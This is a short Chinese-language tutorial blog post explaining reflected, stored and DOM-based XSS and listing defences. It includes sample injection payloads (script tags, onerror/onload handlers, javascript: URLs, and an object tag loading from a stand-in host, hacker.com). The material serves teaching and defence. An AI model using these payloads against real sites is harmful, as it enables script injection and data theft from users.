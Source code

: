 ```yaml
---
title: web安全-XSS
date: 2020-10-11 16:47:23
categories: web安全
tags: [javascript, html]
---
```


### 一起学习了解一下 web安全相关的知识

### XSS（Cross Site Scripting）跨站脚本攻击

使用注入的js,html代码导致页面样式出入，功能缺失，植入广告，甚至用户信息泄露的问题

### XSS 类型
- 基于反射的XSS攻击
比如访问一个搜索商品的，如果搜索没有内容，页面显示 XXX 不存在
1. 用户输入带有参数的url => http://a.com?name=<script>alert(123)</script>
2. js 处理 url 中 name 的值 <script>alert(123)</script> 字符串
3. 直接显示商品名称 <script>alert(123)</script> 写入html 进行页面渲染 js被执行

- 基于存储型的XSS攻击
1. 用户输入带有参数的url => http://a.com?name=<script>alert(123)</script>
2. js 处理 url 中 name 的值 <script>alert(123)</script> 字符串
3. 数据通过后端存储之后，回显的时候展示返回name值
4. 直接显示商品名称 <script>alert(123)</script> 写入html 进行页面渲染 js被执行

- DOM XSS
document.write, eval, img 等等

### 举例
<!-- html节点注入 -->
```html
<section>
  <script>
    alert(1);
  </script>
</section>
```

<!-- DOM注入 -->
```html
<img src='/img.png' onerror='alert(1);'> 
<body onload='alert("XSS")'>
<link rel="stylesheet" href="javascript:alert('XSS');">
<table background="javascript:alert('XSS')">
<div style="background-image: url(javascript:alert('XSS'))">
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
```

### 安全措施
- 输入的内容需要做过滤或者转译（HTMLEncode）
- 避免直接在cookie 中泄露用户隐私 http only
- 采用POST 而非GET 提交表单
- Content Security Policy

